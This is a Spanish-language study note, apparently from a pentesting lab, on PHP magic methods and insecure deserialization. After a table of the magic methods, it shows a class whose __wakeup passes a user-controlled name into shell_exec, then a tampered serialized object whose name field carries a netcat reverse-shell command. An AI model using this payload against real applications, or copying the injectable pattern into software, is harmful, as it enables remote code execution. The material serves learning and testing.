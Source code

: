 ### INFO

- Php tiene un total de 17 magic methods
- Son métodos que reescriben el comportamiento de los objetos cuando son llamados
- Inician con "__"

| Método   | Desc. |
|----------|------|
| __construct    | Método constructor de una clase  |
| __toString    | Define cómo un objeto reacciona al ser trabajado como un string   |
| __call  | Usado cuando se trata de llamar un metodo inaccesible dentro del contexto de un objeto   |
| __get     | CUando tratamos de leer propiedades inaccesibles   |
| __set    | Llamado cuando tratamos de escribir propiedades inaccesibles   |
| __clone    | Cuando tratamos de clonar un objeto   |
| __destruct     | Cuando necesitamos destruir un objeto   |
| __isset    | Cuando tratamos de llamar un isset() o un isempty() en propiedades inaccessibles   |
| __invoke    | Cuando tratamos de invocar un objeto como función   |
| __sleep     | **Llamada cuando se necesita serializar un objeto**. Si __serialize y __sleep están definidas la segunda es ignorada   |
| __wakeup    | **Llamada cuando se deserializa un objeto**. Si __unserialize y __wakeup están definidas, la segunra es ignorada   |
| __unset    | Llamada cuando se tratamos de hacer un unset sobre una propiedad inaccesible   |
| __callStatic    | Llamada cuando necesitamos acceder a un metodo inaccesible en un contexto estático  |
| __set_state    | Llamado cuando var_export es llamado sobre un objeto   |
| __debuginfo    | Llamado cuando var_dump es llamado sobre un objeto   |
| __unserialize     |  Llamado cuando necesitamos un deserializar un objeto  |
| __serialize    | Llamado cuando necesitamos serializar un objeto   |


### Whitebox

Supongamos que tenemos el siguiente código que recibe un objeto serializado:

       public function __construct($Name, $Email, $Password, $ProfilePic) {
            $this->setName($Name);
            $this->setEmail($Email);
            $this->setPassword($Password);
            $this->setProfilePic($ProfilePic);
        }
    
        public function __wakeup() {
            shell_exec('echo "$(date +\'[%d.%m.%Y %H:%M:%S]\') Imported settings for user \'' . $this->getName() . '\'" >> /tmp/htbank.log');
        }
    
        public function __sleep() {
            return array("Name", "Email", "Password", "ProfilePic");
        }

Vemos que la función __wakeup es utilizada para deserializar y asentar esto en un log por medio de la ejecución de código en la terminal y que invoca al atributo NAME del objeto.

Podríamos entonces modificar el value del name del objeto para crear una shell reversa y conseguir RCE:

##### Objeto serializado:

       O:24:"App\Helpers\UserSettings":4:{s:30:"App\Helpers\UserSettingsName";s:6:"porota";s:31:"App\Helpers\UserSettingsEmail";s:17:"porota@porota.com";s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$rhsxRw1X8gpBNhIaMVK9g.jREhfEqNWrNpIGxTpLry1nn8vp8YGXC";s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";}

##### Objeto modificado con inyección de codigo:

       O:24:"App\Helpers\UserSettings":4:{s:30:"App\Helpers\UserSettingsName";s:6:"; nc -nv 127.0.0.1 9999 -e /bin/bash;#";s:31:"App\Helpers\UserSettingsEmail";s:17:"porota@porota.com";s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$rhsxRw1X8gpBNhIaMVK9g.jREhfEqNWrNpIGxTpLry1nn8vp8YGXC";s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";}

